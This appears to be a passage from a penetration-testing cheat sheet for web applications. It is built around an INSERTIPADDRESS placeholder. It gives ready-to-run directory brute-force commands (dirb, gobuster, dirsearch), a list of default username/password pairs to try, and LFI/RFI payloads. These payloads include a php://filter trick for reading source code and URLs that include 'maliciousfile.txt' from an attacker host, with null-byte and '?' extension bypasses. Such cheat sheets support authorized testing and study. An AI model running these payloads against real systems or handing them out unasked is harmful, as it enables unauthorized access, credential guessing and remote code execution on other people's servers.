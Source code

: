
#### Url brute force

```
# Dirb
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e

# Dirsearch (multi-threaded)
dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://INSERTIPADDRESS -t 20 -e html
```

Dirb Scan:

```
INSERTDIRBSCAN
```


#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```

#### LFI/RFI

```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=


# Bypass execution
http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt%00
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt?
```
